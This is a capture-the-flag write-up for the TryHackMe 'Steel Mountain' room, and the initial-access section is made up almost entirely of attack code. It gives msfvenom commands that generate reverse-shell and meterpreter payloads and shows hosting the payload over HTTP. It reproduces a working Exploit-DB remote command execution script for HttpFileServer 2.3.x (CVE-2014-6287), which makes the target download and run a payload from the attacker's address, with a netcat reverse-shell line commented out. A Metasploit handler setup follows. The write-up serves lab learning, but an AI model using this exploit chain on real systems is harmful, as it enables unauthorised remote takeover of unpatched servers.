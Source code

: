 # Steel Mountain

{% embed url="https://tryhackme.com/room/steelmountain" %}

### Initial access

...

#### Retrieving shell (without metasploit)

... to test

{% code overflow="wrap" %}
```sh
$ msfvenom -p cmd/windows/powershell/powershell_reverse_tcp LHOST=<attacker_addr> LPORT=8888 -o <output>.cmd
```
{% endcode %}

_**meterpreter payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=10.4.10.179 LPORT=8888 -o <output>.exe
```
{% endcode %}

{% code title="host web server to load payload file" overflow="wrap" %}
```sh
$ python3 -m http.server <port>
```
{% endcode %}

_**Modified PoC**_

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% code title="39161.py" overflow="wrap" %}
```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "10.4.10.179" #local IP address
	local_port = "8888" # Local Port number
	rev_shell_payload = "xxxx"

	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%3A9998%2F"+rev_shell_payload+"%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5C"+rev_shell_payload+"%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2

	# vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	vbs3 = "C%3A%5CUsers%5CPublic%5C"+rev_shell_payload

	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```
{% endcode %}

{% code overflow="wrap" %}
```sh
$ python2 39161.py <target> <port>
```
{% endcode %}

#### Catch meterpreter&#x20;

```sh
msf6> use multi/handler
msf6> set payload windows/x64/meterpreter_reverse_tcp
msf6> set lhost xxxx
msf6> set lport xxxx

msf6> run
```

### Privilege escalation

...

